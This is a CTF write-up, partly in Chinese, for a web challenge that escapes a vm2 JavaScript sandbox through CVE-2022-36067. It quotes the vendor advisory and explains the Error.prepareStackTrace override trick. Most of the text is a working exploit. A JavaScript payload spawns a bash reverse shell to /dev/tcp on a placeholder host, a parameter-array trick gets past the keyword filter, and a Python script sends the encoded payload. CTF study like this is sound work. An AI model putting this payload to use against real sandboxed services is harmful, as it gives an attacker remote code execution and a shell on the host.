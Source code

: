 ![[Pasted image 20230203085920.png|500]]

![[Pasted image 20230203090337.png|700]]

```
/run.php?code=phpinfo();
```

```
ReferenceError: phpinfo is not defined
```

![[Pasted image 20230203090553.png|500]]

```
/run.php?code=new Error().stack
```

![[Pasted image 20230203090731.png|700]]

[GHSA-mrgp-mrhc-5jrq](https://github.com/patriksimek/vm2/security/advisories/GHSA-mrgp-mrhc-5jrq)

> vm2 is a sandbox that can run untrusted code with whitelisted Node's built-in modules. In versions prior to version 3.9.11, a threat actor can bypass the sandbox protections to gain remote code execution rights on the host running the sandbox. This vulnerability was patched in the release of version 3.9.11 of vm2. There are no known workarounds.

参考 [Enter "Sandbreak" - Vulnerability In vm2 Sandbox Module Enables Remote Code Execution (CVE-2022-36067)](https://web.archive.org/web/20231001013710/https://www.oxeye.io/resources/vm2-sandbreak-vulnerability-cve-2022-36067)

```javascript
globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();
```

通过替换大法让虚假的`prepareStackTrace`得到执行

![[Pasted image 20230203100235.png|300]]

题目存在关键词过滤，通过传递参数数组绕过

# exp

```python
import requests
from urllib.request import quote

url = 'http://xxx.node4.buuoj.cn:81/run.php?code[]={}'

payload = '''globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();'''

requests.get(url.format(quote(payload)))
```

![[Pasted image 20230203101146.png|500]]

#Web #nodejs #js #vm2 #Vulnerabilities #escape #RCE #反弹shell 
